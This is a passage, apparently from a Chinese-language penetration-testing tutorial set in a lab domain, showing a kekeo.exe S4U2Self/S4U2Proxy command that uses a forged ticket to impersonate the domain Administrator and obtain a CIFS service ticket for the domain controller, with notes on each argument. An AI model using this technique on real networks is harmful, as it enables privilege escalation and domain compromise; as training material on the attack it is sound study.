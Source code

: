 ![image-20230801174331781](assets/image-20230801174331781.png)

### 3.2.4. 获取域控票据

通过这刚刚生成的TGT伪造s4u请求以Administrator用户身份去访问域控的的CIFS的ST，S4U2Self 获取到的 ST1 以及 S4U2Proxy 获取到的 AD-2008 CIFS 服务的 ST2 会保存在当前⽬录下。

所以在当前目录下会出现两个新的票据。

```
shell kekeo.exe "tgs::s4u /tgt:TGT_webadmin@0DAY.ORG_krbtgt~0day.org@0DAY.ORG.kirbi /user:Administrator@0day.org /service:cifs/OWA2010SP3.0day.org" "exit"

第一个斜杠后面的是你刚刚生成的TGT伪造的票据名称。
第二个斜杠后面的是以administrator身份去访问，注意要在后面添加上域名哦。
第三个斜杠后面的是设置的CIFS的域控主机名与域名
```

![image-20230801174836347](assets/image-20230801174836347.png)
